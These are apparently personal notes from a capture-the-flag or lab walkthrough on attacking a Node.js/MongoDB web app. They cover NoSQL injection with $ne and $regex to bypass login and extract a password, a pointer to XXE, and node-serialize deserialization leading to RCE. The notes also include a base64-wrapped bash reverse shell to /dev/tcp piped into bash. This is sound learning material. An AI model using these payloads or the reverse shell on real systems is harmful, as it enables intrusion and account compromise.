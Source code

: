 # Takeaways 
#regex #python #xxe #noSQLi 
- Video https://www.youtube.com/watch?v=ahzOprfN--Y
- Node.js is running express framework
	- Like flask or django for python
- A lot of node.js applications do not use SQL
-  PHP is common with LAMP stack
-  Node.js is all about the MEAN stack
	- MongoDB
	- Express framework
	- Angular
	- Node.js
- Uses no SQL
- Often can not do noSQLi when content-type is set to `application/x-www-form-urlencoded`
- Try converting to `application/json`
- Make payload json
- i.e `{"user":"admin", password: "password1"}`
- With noSQLi 
```json
{"user":"admin", "password":
	{
		"$ne":"password1"
	}
}
```
- We are saying login if user == admin and password != password1
- If this kind of vulnerability exist, we can work out the password by using regex
- i.e:
```json
{"user":"admin", "password":
	{
		"$regex":"^c"
	}
}
```
- If the password starts with a "c" we will log in
- Repeat process again but with `$regex:"^cb"`, and if u log in u know the password starts with cb
- Write a script to do this automatically to work out the password
- **Python Tip** - Can use a different type of fstring
```python
string = "Text from string one"
string2 = "Text from string two - %s" % string

print(string2)
# Will output Text from "string two - Text from string one"
```
- When using requests library, can use `json=data` instad of `data=data` and python will automatically set the content-type header to `application/json`
- In regex `.*` means anything
- Can use `string.ascii_letters` from the `string` library to get all ascii characters
- When dealing with xml try an xml Entity Injection (XXE)
- [Pyaload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings) is a great resource 
- Start basic with something like printing a name as application may be install preventing u from reading files
- In node.js the mail files are usually either:
	- app.js
	- server.js
	- main.js
- Check node imports for vulnerable dependencies
- In this case the vulnerable module was node-serialize
- Googling for this vulnerability bring up a payload to use
- The issue was insecure desericalization
```js
c = serialize.unserialize(c) // Where c was the users cookie - Insecure
c = JSON.parse(JSON.stringify(c)) // Secure way
```
- RCE was obtained by putting a malicious payload inside the cookie
- When seeting up reverse shell payload and u know there is going to be url encoding, convert reverse shell to base64
- Do this anythime special characters may be a problem
- Add extra white space to get rid of `+` character in base64 output
- `echo -n 'bash -i  >& /dev/tcp/<ip>/<port>  0>&1' | base64`
- To activate payload do: `echo -n <base64 string> | base64 -d | bash`
- Can view bson documents using `bsondump`
- Can use a tool called `jq` to prettyify json in the terminal
- Always test for IDOR